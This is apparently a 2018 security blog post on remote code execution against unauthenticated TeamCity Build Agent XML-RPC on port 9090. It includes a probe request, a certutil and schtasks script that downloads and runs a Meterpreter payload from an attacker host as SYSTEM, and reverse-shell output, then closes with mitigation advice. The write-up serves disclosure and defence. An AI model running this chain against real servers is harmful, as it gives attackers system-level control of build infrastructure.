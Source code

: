 ```yaml
---
title: "Teamcity Agent XML-RPC RCE"
date: 2018-07-26T08:10:21Z
resources:
    - name: tc-local-system
      src: images/001-teamcity-local-system.png
---
```


For those who haven't had the pleasure, TeamCity is a delightful Continuous Integration tool from JetBrains. TeamCity is commonly deployed to multiple servers, with one TeamCity server responsible for managing build configurations and multiple Build Agent servers responsible for running the builds.

The Build Agents can be configured to receive their build commands in either a unidirectional or bidirectional mode. In unidirectional mode the Build Agent polls the server for new build commands and then runs them. In bidirectional mode the TeamCity server pushes the commands down to the Build Agents over port 9090. Up until version 10 this was the default configuration.

What is particular charming about this bidirectional mode, is that in its default configuration, there is no authentication, authorisation or encryption of the communications between the TeamCity server and the Build Agent. Combine this with the fact that it's not uncommon for Build Agents to run as System and some real fun can be had.

## Identifying a TeamCity Agent
Initially the port appeared as part of an Nmap scan, however service detection was unable to shed much light on the port, other than it's an XML-RPC service over HTTP.
```
PORT     STATE SERVICE VERSION
9090/tcp open  rtsp
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.0 400 Bad Request
|     Server: Apache XML-RPC 1.0
|     Method GET not implemented (try POST)
|   HTTPOptions: 
|     HTTP/1.0 400 Bad Request
|     Server: Apache XML-RPC 1.0
|     Method OPTIONS not implemented (try POST)
|   RTSPRequest: 
|     RTSP/1.0 400 Bad Request
|     Server: Apache XML-RPC 1.0
|     Method OPTIONS not implemented (try POST)
|   SIPOptions: 
|     SIP/2.0 400 Bad Request
|     Server: Apache XML-RPC 1.0
|_    Method OPTIONS not implemented (try POST)
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
```

Unfortunately, the Build Agents don't support any kind of XML-RPC introspection so we have to make do with Googling and a bit of guesswork to figure out what the service is expecting.

Sending through the simple payload here we at least get an error message which confirms that it is a TeamCity Build Agent.
```xml
POST / HTTP/1.1
Host: 172.16.198.149:9090
Connection: close
Content-Length: 104

<?xml version="1.0"?>
<methodCall>
    <methodName>buildAgent.hello</methodName>
    <params></params>
</methodCall>

HTTP/1.1 200 OK
Server: Apache XML-RPC 1.0
Connection: close
Content-Type: text/xml
Content-Length: 311

<?xml version="1.0"?>
<methodResponse>
    <fault>
        <value>
            <struct>
                <member>
                    <name>faultString</name>
                    <value>java.lang.NoSuchMethodException: jetbrains.buildServer.agent.impl.BuildAgentImpl.hello()</value>
                </member>
                <member>
                    <name>faultCode</name>
                    <value>
                        <int>0</int>
                    </value>
                </member>
            </struct>
        </value>
    </fault>
</methodResponse>
```

## Developing an Exploit

Perhaps the best strategy is to install a local copy of TeamCity and inspect the traffic with Wireshark.

![TeamCity Wireshark Capture](/images/001-teamcity-wireshark.png)

From this we learn that the Build Agent is expecting an XML method call to `buildAgent.runBuild` and the only parameter this method expects is an XML string containing our build configuration. Nested within this XML blob we can see our actual command line step, `echo &quot;Hello World&quot;`. Now all we need to do is construct a malicious build configuration and we're good to go!

Starting out small we'll replace our echo command with `whoami > C:\pwn.txt` to print out the account running the TeamCity Build Agent. From this we can see the Build Agent is running as NT AUTHORITY\SYSTEM.

![TeamCity Running as Local System](/images/002-teamcity-local-system.png)

Let's step things up. We'll throw in a Meterpreter payload and go for a reverse shell then call it quits. To do this we'll modify our script to download our Meterpreter payload to a temp directory, schedule a task to execute the payload, run the task and then remove it. This is needed as the Build Agent will step in and kill our Meterpreter process before we can migrate it somewhere else otherwise. We end up with the following build script.
```
certutil -urlcache -split -f http://172.16.198.147/meterpreter.exe %TEMP%/meterpreter.exe
schtasks /create /tn msf /tr %TEMP%/meterpreter.exe /sc MONTHLY /ru System
schtasks /run /tn msf
schtasks /delete /tn msf /f
```

Now all we need to do is send off our XML-RPC call and catch our shell!
```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.198.147:4444 
[*] Meterpreter session 1 opened (172.16.198.147:4444 -> 172.16.198.149:49411) at 2018-07-24 16:13:52 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

## Closing Thoughts
Please, please, please upgrade to TeamCity 10 or later, where XML-RPC is no longer the default configuration for Build Agents. Failing that, at the very least disable XML-RPC. This can be done on the TeamCity server by setting the following internal property `teamcity.agent.communicationProtocols=polling`. Alternatively, this property can be set on the individual Build Agents. The Build Agent's property overrides any properties set by the TeamCity server. So any Build Agents which have XML-RPC explicitly enabled will need updating regardless.

Finally, where possible, perhaps don't run TeamCity Build Agents as Local System or with administrative permissions. We don't want to make things too easy do we?

## See Also
* [TeamCity Agent configuration](https://confluence.jetbrains.com/display/TCD10/Setting+up+and+Running+Additional+Build+Agents#SettingupandRunningAdditionalBuildAgents-Server-AgentDataTransfersAgent-ServerDataTransfers)
* [Nessus issue](https://www.tenable.com/plugins/nessus/94675)